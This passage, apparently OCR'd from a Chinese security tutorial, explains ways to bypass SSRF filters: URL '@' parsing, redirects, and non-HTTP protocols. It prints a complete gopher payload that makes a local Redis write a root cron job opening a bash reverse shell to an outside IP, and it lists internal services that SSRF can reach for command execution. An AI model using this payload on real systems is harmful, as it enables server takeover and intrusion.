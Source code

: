 这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 `http://www.baidu.com@192.168.0.1/` 当后端程序通过不正确的正则表达式

（比如将http之后到com为止的字符内容，也就是www.baidu.com，

认为是访问请求的host地址时）对上述URL的内容进行解析的时候，

很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容

都是192.168.0.1上的内容。

#### 4.4.4.4. 利用跳转

如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，

我们这个时候可以使用跳转的方式来进行绕过。

可以使用如  等服务跳转，

但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，

可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但

是302跳转不会。

#### 4.4.4.5. 通过各种非HTTP协议

如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到

攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，

可以使用如下的URL：

>  
 <pre>gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i &gt;&amp; /dev/tcp/172.19.23.228/23330&gt;&amp;1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
</pre> 


```
Apache Hadoop远程命令执行
axis2-admin部署Server命令执行
Confluence SSRF
counchdb WEB API远程命令执行
dict
docker API远程命令执行
Elasticsearch引擎Groovy脚本命令执行
ftp / ftps（FTP爆破）
glassfish任意文件读取和war文件部署间接命令执行
gopher
HFS远程命令执行
http、https
imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码）
Java调试接口命令执行
JBOSS远程Invoker war命令执行
Jenkins Scripts接口命令执行
ldap
mongodb
php_fpm/fastcgi 命令执行
rtsp - smb/smbs（连接SMB）
sftp
ShellShock 命令执行
Struts2 命令执行
telnet
```